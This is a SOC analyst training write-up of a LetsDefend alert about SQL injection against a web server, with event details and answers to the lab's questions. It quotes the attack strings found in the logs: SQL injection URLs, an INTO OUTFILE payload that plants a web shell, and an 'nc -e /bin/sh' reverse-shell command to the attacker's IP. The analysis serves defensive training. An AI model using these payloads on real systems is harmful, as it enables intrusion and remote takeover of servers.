```yaml
---
title: "LetsDefend SOC142 - Multiple HTTP 500 Response"
date: 2022-02-28 10:21 +0800
categories: [LetsDefend, Soc Analyst]
tags: [SOC, Code Execution]
author: CEngover
---
```


### Event Details

**EventID:**  89

**Event Time:** April 18, 2021, 1 p.m.

**Rule:** SOC142 - Multiple HTTP 500 Response

**Level:** Security Analyst

**Source Address** : 101.32.223.119

**Source Hostname** : 101.32.223.119

**Destination Address** : 172.16.20.6

**Destination Hostname** : SQLServer

**Username** : www-data

**Request URL** : https://172.16.20.6/userNumber=1 AND (SELECT * FROM Users) = 1

**User Agent** : Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36

**Device Action** : Allowed

After checking logs that belong to source IP, we can see that there are several SQL Injection attack to the destination address. By viewing all of these logs, we notice that attacker had made an attack succesfully. What I mean is the attacker uploaded a web shell into system. The requested URL is `**Request URL:** https://172.16.20.6/userNumber=' union select 1, '' into outfile '/var/www/html/cmd.php' #`

By checking the IP address is malicious or not, Virustotal returns the IP is `malicious` by several security vendors. Let's answer the following questions.

-   When was it accessed?
	`Apr, 18, 2021, 01:01 PM`
	
-   What is the source address?
	`101.32.223.119`
	
-   What is the destination address?
	`172.16.20.6`

-   Which user tried to access?
	`www-data`

-   What is User Agent?
	`Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36`

-   Is the request blocked?
	`Nope`

In Endpoint section, we can see that the attacker could execute system commands such as whoami, id, etc. After code execution, the attack get  connection via `nc 101.32.223.119 -e /bin/sh` command. 